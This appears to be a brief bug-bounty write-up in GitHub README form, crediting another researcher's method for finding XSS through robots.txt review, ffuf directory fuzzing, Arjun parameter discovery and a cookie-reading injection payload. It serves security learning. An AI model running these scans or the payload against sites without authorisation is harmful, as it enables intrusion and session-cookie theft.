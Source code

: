 # ***How reading robots.txt file got me 4 XSS reports? 💡💡***

### *1. Start doing Google Dorking [Found Nothing]*

### *2. Searched for the domain name at Wayback archive [Found Nothing]*

### *3. Opened robots.txt file to see what the developer hide from us*

### *4. Open source code > Search for any secrets or endpoints > [Found Nothing]*

### *5. Open JS files > Use any tool like gospider to extract secrets and Endpoints > [Found Nothing]*

### *6. Let’s FUZZ*
`ffuf -u https://sub.domain.com/admin/FUZZ -w aspfiles.txt -mc 200`

### *7. Found Endpoint:*
`https://sub.domain.com/admin/colorpicker_IEPatch.asp`

### *8. Use Arjun to find hidden parameter*
`arjun -u https://sub.domain.com/admin/colorpicker_IEPatch.asp`

### *9. Payload:* 
`</script><img src=x onerror=alert(document.cookie)>`
<br>&nbsp;

----
## ***Credit***
Based on [Ahmed Qaramany](https://c0nqr0r.medium.com/reading-robots-txt-got-me-4-xss-reports-9fd2234c635f)'s writeup.

----
## ***Support***
You can Follow [me](https://www.linkedin.com/in/bhavesh-pardhi-/) on LinkedIn or
<br><br>[![Buy Me a Coffee](https://img.shields.io/badge/Buy%20Me%20a%20Coffee-Support-orange?style=for-the-badge&logo=buy-me-a-coffee)](https://www.buymeacoffee.com/bhaveshpardhi)

